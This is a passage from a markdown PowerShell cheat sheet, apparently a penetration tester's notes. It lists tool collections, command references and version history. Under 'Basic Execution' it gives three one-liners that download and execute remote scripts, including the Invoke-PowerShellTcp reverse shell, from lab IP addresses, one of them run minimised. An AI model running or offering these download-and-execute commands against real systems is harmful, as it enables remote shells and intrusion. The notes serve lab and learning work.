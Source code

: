 # Powershell

## Collections

- <https://sid-500.com/downloads/>
- Resource: Infosec PowerShell tools, resources, and authors: <https://www.peerlyst.com/posts/resource-infosec-powershell-tools-resources-and-authors?utm_source=twitter&utm_medium=social&utm_content=peerlyst_post&utm_campaign=peerlyst_shared_post>
- Mayhem scripts: <https://gist.github.com/M3T4L5T3F>
- Collection of PowerShell network security scripts for system administrators: <https://github.com/thom-s/netsec-ps-scripts>

## Quick Reference

- An A-Z Index of Windows **PowerShell** commands: <https://ss64.com/ps/>
- Windows **PowerShell** command line syntax: <https://ss64.com/ps/syntax.html>
- <https://pinvoke.net> - Allowing developers to find, edit and add `PInvoke`[*](https://pinvoke.net/#definePinvoke) signatures, user-defined types, and any other information related to calling Win32 and other unmanaged APIs from managed code (written in languages such as C# or VB.NET).
- Versions
  - v1: November 2006 - Windows XP SP2, Windows Server 2003 SP1 and Windows Vista
  - v2: Windows 7 and Windows Server 2008 R2 (Standalone for: Windows XP SP3, Windows Server 2003 SP2, and Windows Vista SP1)
  - v3: Windows 8 (Can be installed on: Windows 7 SP1, for Windows Server 2008 SP1, and for Windows Server 2008 R2 SP1) (no XP support)
  - v4: Windows 8.1 (Can be installed on:  Windows 7 SP1, for Windows Server 2008 SP1, and for Windows Server 2008 R2 SP1)
  - v5:
    - Part of Windows Management Framework (WMF) 5.0.
    - February 24, 2016.
    - Features OneGet PowerShell cmdlets to support Chocolatey's repository-based apps.
    - Ability to manage layer 2 network switches
    - Windows 10 Anniversary Update
    - Available for Windows 7, Windows Server 2008, Windows Server 2008 R2, Windows Server 2012, and Windows Server 2012 R2
  - v6: PowerShell Core on 18 August 2016
  - Versin information: `$PSVersionTable`
    ```
    Get-Host | Select-Object Version
    $PSVersionTable
    ```
- Help System
  - `Get-Help Get-Process`
  - `help Get-Process`
  - `Update-Help`
  - `Get-Help remoting`
  - `Get-Help about_*remot*`
- Basic Execution
  - 64 bit
    ```bat
    %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.Webclient).DownloadString('http://10.10.14.17/Invoke-PowerShellTcp.ps1')"
    ```
  - 32 bit
    ```bat
    START /MIN /LOW CMD /C %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.Webclient).DownloadString('http://10.11.0.50/shells/Invoke-PowerShellTcp.ps1')"
    ```
  - Using command line: `echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.17:8000/Sherlock.ps1') | PowerShell -Noprofile -`
- Basic Constructs
  - Cmdlets